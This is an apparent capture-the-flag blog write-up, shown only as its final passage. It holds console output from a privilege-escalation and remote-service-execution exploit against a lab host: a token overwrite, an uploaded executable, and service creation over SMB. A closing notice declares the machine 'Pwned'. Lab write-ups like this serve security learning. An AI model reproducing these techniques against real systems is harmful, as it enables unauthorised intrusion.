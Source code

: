 ``` bash
userAndGroupCount: 0x3                                                    │
userAndGroupsAddr: 0xe1133468                                             │
overwriting token UserAndGroups                                           │
Sending file Q8M20F.exe...                                                │
Opening SVCManager on 10.129.145.24.....                                  │
Creating service qqPR.....                                                │
Starting service qqPR.....                                                │
The NETBIOS connection with the remote host timed out.                    │
Removing service qqPR.....                                                │
ServiceExec Error on: 10.129.145.24                                       │
nca_s_proto_error                                                         │
Done                                                                      │

```

{{< notice success "we have successfully Pwned the Machine " >}}
See you on the next Blog, Happy hacking...
{{< /notice >}}


